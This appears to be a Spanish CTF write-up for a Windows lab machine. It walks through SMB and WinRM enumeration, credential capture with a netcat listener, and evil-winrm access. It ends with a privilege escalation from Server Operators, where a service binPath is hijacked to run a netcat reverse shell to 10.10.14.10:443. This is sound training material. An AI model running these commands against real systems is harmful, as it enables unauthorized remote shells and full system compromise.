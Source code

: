 ## Summary

Tags: #Windows #SMB #WinRM #ReverShell #Netcat #NetUser  #Nmap 

- IP -> 
- Ports -> TCP (53,80,88,135,139,389,445,5985), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80  -> HTTP microsoft IIS/10.0
    - 445 -> SMB
    - 5985 -> WinRM

## Recon
Windows IIS (10.0)

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ nc -nlvp 389 
```
Nos ponemos a explorar la pagina web y encontramos que podiamos hacer que la pagina al momento de hacerle Update, esta apuntara a nuestra IP y asi con nc ver el contenido y nos devuelve un User y una Passwd

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Ahora podemos usar el puerto 5985 para poder ingresar con WINRM
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Una vez adentro buscamos la flag del usuario user.txt en Desktop

Ahora nos disponemos a probar comandos para ver como poder escalar privilegios en la maquina Windows
```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```

```bash
❯ systeminfo                                 # Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.
```

```bash
❯ net user <USER>                            # Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. 


# Server Operators = Es un grupo en el que podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Si pertenecemos a este grupo podemos cargar a la maquina victima Netcat.exe.
```

Ahora buscamos en Google la parte de Server Operators para ver que significa y que podemos hacer.
Los miembros de **Server Operators** pueden administrar el domain controller. Pueden hacer las siguientes acciones, iniciar sesión en un servidor de forma interactiva, crear y eliminar recursos compartidos de red, iniciar y detener servicios, realizar copias de seguridad y restaurar archivos, formatear la unidad de disco duro de la computadora y apagar la computadora. Este grupo no puede ser renombrado, eliminado o removido.

Por lo que nos ponemos a utilizar Netcat para poder entrar 
Buscamos el archivo nc.exe en la maquina atacante para despues subirlo a la maquina victima en el directorio Temp, ya que en ese directorio hay permisos de lectura y escritura.

```bash
❯ upload /home/omar/Documet/HTB/nc.exe       # Subimos el archivo Netcat a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

Despues podemos crear una revershell y ver si podemos crear un servicio 
```bash
❯ sc.exe create reverse binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 

# Si no nos deja, hacemos lo siguiente:
❯ Services                            # Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo de 'Server Operators' y asi podernos montar una revershell con algun servicio con sc.exe
❯ sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)
```

## Root

```bash
❯ nc -nlvp 443 
```

Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
```bash
❯ sc.exe stop VMTools              # Paramos el servicio
❯ sc.exe start VMTools             # Iniciamos el servicio
```

Nos damos cuenta que ya somo **NT Autority System** y tenemos los privilegios de administrador, por lo que nos dirigimos a buscar la flag roo.txt

